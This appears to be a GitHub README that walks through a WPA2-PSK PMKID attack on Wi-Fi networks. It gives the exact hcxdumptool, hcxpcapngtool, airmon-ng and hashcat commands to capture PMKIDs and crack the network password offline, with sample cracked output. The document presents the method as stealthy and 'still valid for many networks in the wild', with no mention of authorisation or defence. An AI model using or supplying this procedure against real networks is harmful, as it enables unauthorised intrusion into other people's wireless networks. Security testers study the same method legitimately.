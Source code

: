 
# 🛡️ WPA2-PSK PMKID Attack – Offline, Clientless Method

## 🔍 What is the PMKID Attack?

The PMKID attack is a modern, stealthy method to obtain the WPA2-PSK password **without capturing a full handshake** and **without requiring a connected client**.

Instead, it abuses a feature in some APs where the **PMKID** is included in the first EAPOL message.

---

## 💡 Why use PMKID?

- ✅ No deauths needed
- ✅ No connected clients required
- ✅ Silent/stealthy
- ✅ Fully offline crack
- ✅ Faster and more scriptable than traditional handshake methods

---

## 🧠 How it Works

The PMKID (Pairwise Master Key Identifier) is generated using:

- The **SSID**
- The **MAC address of the AP (BSSID)**
- The **PSK (Pre-Shared Key)**

If the AP includes the PMKID in the EAPOL frames, it can be captured directly and cracked offline.

---

## ⚙️ Tools Required

- `hcxdumptool` – to capture PMKID packets
- `hcxpcapngtool` – to extract hash from the capture file
- `hashcat` – to perform the actual brute-force attack

---

## 🧭 Attack Flow

### 1. Put interface in monitor mode

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

### 2. Capture PMKID using hcxdumptool

```bash
sudo hcxdumptool -i wlan0mon -o pmkid.pcapng --enable_status=1
```

Let it run for a bit while it passively collects PMKID packets.

### 3. Extract hash for cracking

```bash
hcxpcapngtool -o pmkid_hash.txt pmkid.pcapng
```

### 4. Crack the hash using hashcat

```bash
hashcat -m 16800 pmkid_hash.txt rockyou.txt
```

- `-m 16800`: mode for WPA-PMKID
- `rockyou.txt`: your wordlist

---

## 🧪 Output Example

```bash
Session..........: hashcat
Hash.Type........: WPA-PMKID-PBKDF2
Status...........: Cracked
Password.........: supersecurewifi
```

---

## 📌 Notes

- Not all APs expose PMKID — some models are immune
- Works best on modern routers using 802.11i
- Still valid for many networks in the wild

---

This is a passive, elegant, and powerful technique.  
No noise. No clients. Just results.

